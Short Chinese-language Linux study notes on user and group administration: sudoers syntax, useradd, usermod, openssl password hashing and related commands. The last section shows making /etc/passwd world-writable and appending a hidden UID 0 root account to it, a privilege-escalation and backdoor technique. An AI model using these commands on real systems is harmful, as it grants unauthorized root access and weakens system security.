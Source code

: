 ### 用户和组的初步管理

sudo授权文件/etc/sudoers

%sudo ALL(ALL) ALL

用户（被授权的用户或组） 主机名列表=（用户） 命令程序列表

lsof -i :22 （查看关于22端口打开的文件）

用户user

* useradd（用户添加）

  useradd hacker      添加用户hacker

* usermod（用户修改）

  usermod -p ‘hash加密的密文’ 用户名   （修改用户密码）

  openssl passwd -1 -salt 用户名 密码  （使用openssl的passwd哈希密码加密功能，加密用户密码，-1 是使用MD5加密）

  passwd 用户名 密码   （设置用户密码，限于已存在用户并且密码为加密密文）

* userdel（用户删除）

  userdel 用户名

* su（切换用户）

  su -  （切换到root账户）

* sudo（用户授权）

* id（查询用户id）

* who（w）（查看在线用户）

* last（查看用户最近登录信息）

* /etc/passwd（账户文件）



### 对/etc/passwd文件有写入的权限

chmod 666 /etc/passwd

用户       组      其他

rwx         rwx      rwx

6             6          6

rw-          rw-        rw-

r 4

w 2

x 1

添加一个具有root权限的用户

echo 'abc:加密密码:0:0:root:/root:/usr/bin/zsh' >> /etc/passwd
